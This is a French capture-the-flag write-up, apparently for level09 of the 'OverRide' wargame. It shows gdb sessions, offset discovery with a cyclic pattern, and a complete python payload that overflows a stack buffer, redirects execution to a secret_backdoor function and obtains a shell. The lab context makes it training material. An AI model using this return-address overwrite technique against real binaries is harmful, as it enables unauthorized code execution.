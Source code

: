 on peut remarquer sur la fonction set username met username avec les 41 premiers caracteres du fgets de 128 on peut donc exploiter cela pour faire un buffer overflow et ecraser le return address de la fonction set_username
et le remplacer par l'addresse de secret backdoor qui est :

```shell
(gdb) b main
Breakpoint 1 at 0xaac
(gdb) r
Starting program: /home/users/level09/level09
warning: no loadable sections found in added symbol-file system-supplied DSO at 0x7ffff7ffa000

Breakpoint 1, 0x0000555555554aac in main ()
(gdb) info function secret_backdoor
All functions matching regular expression "secret_backdoor":

Non-debugging symbols:
0x000055555555488c  secret_backdoor
```

en mettant un \xff a la fin du buffer on peut voir que le programme crash

```shell
level09@OverRide:~$ python -c 'print "a"*40 + "\xff"'
aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa�
level09@OverRide:~$ python -c 'print "a"*40 + "\xff"' | ./level09
--------------------------------------------
|   ~Welcome to l33t-m$n ~    v1337        |
--------------------------------------------
>: Enter your username
>>: >: Welcome, aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa�>: Msg @Unix-Dude
>>: >: Msg sent!
Segmentation fault (core dumped)
```

maintenant qu'on sait que le programme crash on va chercher a remplacer l'adresse de retour de la fonction par l'adresse de la fonction secret_backdoor
on va premierement chercher l'offset pour nous permettre ensuite de indiquer l´adresse de back_door
```shell
(gdb) r
Starting program: /home/users/level09/level09 
--------------------------------------------
|   ~Welcome to l33t-m$n ~    v1337        |
--------------------------------------------
>: Enter your username
>>: aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa�
>: Welcome, aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa�>: Msg @Unix-Dude
>>: Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag6Ag7Ag8Ag9Ah0Ah1Ah2Ah3Ah4Ah5Ah6Ah7Ah8Ah9Ai0Ai1Ai2Ai3Ai4Ai5Ai6Ai7Ai8Ai9Aj0Aj1Aj2Aj3Aj4Aj5Aj6Aj7Aj8Aj9
>: Msg sent!

Program received signal SIGSEGV, Segmentation fault.
0x0000555555554931 in handle_msg ()
(gdb) x/s $rsp
0x7fffffffe5d8:  "6Ag7Ag8Ag9Ah0Ah1Ah2Ah3Ah4Ah5Ah6Ah7Ah8Ah"

```
le 6 du 6Ag est le 200eme caractere donc l'offset est de 200. 

maintenant qu'on a l'offset on peut essayer de remplacer le return address par l'adresse de la fonction secret_backdoor

```shell
(gdb) b main
Breakpoint 1 at 0xaac
(gdb) r
Starting program: /home/users/level09/level09 
warning: no loadable sections found in added symbol-file system-supplied DSO at 0x7ffff7ffa000

Breakpoint 1, 0x0000555555554aac in main ()
(gdb) info function secret_backdoor
All functions matching regular expression "secret_backdoor":

Non-debugging symbols:
0x000055555555488c  secret_backdoor
(gdb) 
```

donc si on le fait en une seule commande on a :

1er argument : username (override sur le 41eme char) ``python -c 'print "a"*40 + "\xff"'``
2eme argument : l'offset et l'adresse de la fonction secret_backdoor en little indian ``python -c 'print "a"*200 + "\x8c\x48\x55\x55\x55\x55\x00\x00"'``
3eme argument : /bin/sh ``python -c 'print "/bin/sh"'`` qui va etre execute par le secret backdoor

on assemble le tout : ``python -c 'print "a"*40 + "\xff" + "\n" + "a"*200 + "\x8c\x48\x55\x55\x55\x55\x00\x00" + "\n" + "/bin/sh"'``

```shell
level09@OverRide:~$ python -c 'print "a"*40 + "\xff" + "\n" + "a"*200 + "\x8c\x48\x55\x55\x55\x55\x00\x00" + "\n" + "/bin/sh"' > /tmp/exploit
level09@OverRide:~$ cat /tmp/exploit - | le
less      lessecho  lessfile  lesskey   lesspipe  let       lexgrog   
level09@OverRide:~$ cat /tmp/exploit - | le
less      lessecho  lessfile  lesskey   lesspipe  let       lexgrog   
level09@OverRide:~$ cat /tmp/exploit - | ./level09 
--------------------------------------------
|   ~Welcome to l33t-m$n ~    v1337        |
--------------------------------------------
>: Enter your username
>>: >: Welcome, aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa�>: Msg @Unix-Dude
>>: >: Msg sent!
whoami
end
```
